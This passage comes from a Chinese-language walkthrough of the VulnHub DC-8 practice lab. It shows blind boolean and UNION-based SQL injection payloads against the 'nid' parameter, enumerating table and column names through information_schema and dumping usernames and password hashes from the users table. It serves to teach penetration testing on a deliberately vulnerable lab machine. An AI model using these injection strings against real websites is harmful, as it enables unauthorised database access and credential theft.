 ```python
        except requests.RequestException as e:
            print(f"使用参数值 {combination} 请求时出现异常: {e}")
```

发现`users`表名

![](D:\stu\vulnhub\DC靶场\pic-8\16.jpg)

获取到表名后，还需要获取列名，所以再次构造语句

```shell
/?nid=1 and if(length((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')))={i},1,0)--+
```

这里直接把语句复制到脚本中的`url`参数即可

![](D:\stu\vulnhub\DC靶场\pic-8\17.jpg)

知道长度为115，修改获取数据的脚本中的`range(0,117)`和`url`为下面的即可

```shell
/?nid=1 and if(substring((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')),{i},1)='{combination}',1,0)--+
```

![](D:\stu\vulnhub\DC靶场\pic-8\18.jpg)

知道列名后，就可以获取数据了，不过，还是需要测试指定的列名，其数据长度

```shell
/?nid=1 and if(length((select group_concat(name,'|',pass) from users))={i},1,0)--+
```

![](D:\stu\vulnhub\DC靶场\pic-8\19.jpg)

再继续往后，经过测试，啧，密码的大小写不分，导致排列组合太多，所以不再继续

## union注入

好了，看到这里应该人不多了， 就上`union`测试了，前面不直接使用，也是为了练我自己

这是之前测试的截图，现在放在这里，证明可以进行`union`测试

![](D:\stu\vulnhub\DC靶场\pic-8\20.jpg)

以上步骤不再重复，已经知道该查询什么了，构造语句

```shell
union select group_concat(table_name) from information_schema.tables where table_schema='d7db'--+

union select group_concat(column_name) from information_schema.columns where table_name='users'--+

http://192.168.10.12/?nid=-1 union select group_concat(name,'|',pass) from users--+
```

![](D:\stu\vulnhub\DC靶场\pic-8\21.jpg)
